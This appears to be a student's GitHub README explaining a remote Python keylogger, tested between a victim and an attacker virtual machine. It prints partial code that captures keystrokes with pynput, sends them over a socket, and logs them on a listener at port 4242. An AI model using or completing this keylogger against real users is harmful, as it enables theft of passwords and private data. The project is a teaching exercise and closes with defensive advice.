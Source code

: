# keylogger_school_project
School project about keyloggers

###What are keyloggers?

Keyloggers are a type of malware that record every keystroke you make on your computer, including sensitive information like usernames and passwords.

Keyloggers also have legitimate and legal use cases, such as for employee monitoring, parental controls, and law enforcement purposes.

### A simple remote Keylogger in Python 3

The two scripts work together to capture keystrokes and send them over a socket connection to the server.

The client script captures the keystrokes and sends them over the socket connection to the server, while the server script listens for incoming connections and logs any received keystrokes to a file.

In other words, the scripts allow the user to remotely monitor keystrokes on a target machine.

### Client side script

The **keylogger.py** script captures keystrokes using the **pynput** library and sends them to a remote server. It does this by defining two functions: **send_data()** and **on_press()**. 

**on_press()** listens for key presses, converts them to strings, and adds them to a buffer (data_to_send variable) to be sent by **send_data()**.

```python
def on_press(key):
    global data_to_send
    data_to_send += "[Key Pressed]=> {}\n".format(key)
```

**send_data()** creates a socket object (used to connect to the remote server) and sends any data captured by **on_press()**.

The last three lines of the code listen for keystrokes using the **pynput** library, and call a function to send any keystrokes captured over a socket connection.

```python
with Listener(on_press=on_press) as listener:
    send_data()
    listener.join()
```

The **listener.join()** line waits for the keystroke listener to stop before the program exits.

### Server side script

The **handler.py** script creates a socket and listens for incoming connections on port 4242.

```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)	sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4242))
```

When a connection is established, the code receives data from the connection and writes it to a log file called "log.txt" using the **write_logs()** function. The code continues to receive and log data until the connection is closed by the sender.

```python
loop = True
	while loop:
		received_data = connection.recv(1024)
		if not received_data:
			loop = False
		else:
			write_logs(received_data.decode())
```

The **write_logs()** function appends data to the log file. It is used to store data received by the server-side script from the client-side script.

```python
def write_logs(data):
	with open("log.txt", "a") as f:
		f.write(data)
```

### Testing the scripts

The **keylogger.py** script will be executed on a Windows virtual machine, emulating a victim infected with the keylogger. The **handler.py** script will be executed on a Linux virtual machine, representing an attacker."

This setup emulates an attacker monitoring a victim's keystrokes remotely.

The following screenshot shows the script being executed by "the victim". Once the script is executed, the user types text as shown in the red underline.

![victim virtual machine](images/victim.png)

The following screenshots show the "attacker" receiving a connection on the terminal and the keys logs saved in the log file.

![attacker virtual machine](images/attacker.png)

![log file](images/log.png)

### Conclusion

The scripts we talked about can be used by cyber attackers to steal sensitive information, such as passwords or financial data, from unsuspecting victims. This type of attack can be very harmful for individuals and businesses.

To protect ourselves, we can take a few simple steps:

- Install and keep updated anti-malware software
- Don't click on suspicious links or download files from untrusted sources
- Use strong, unique passwords and enable two-factor authentication when possible.
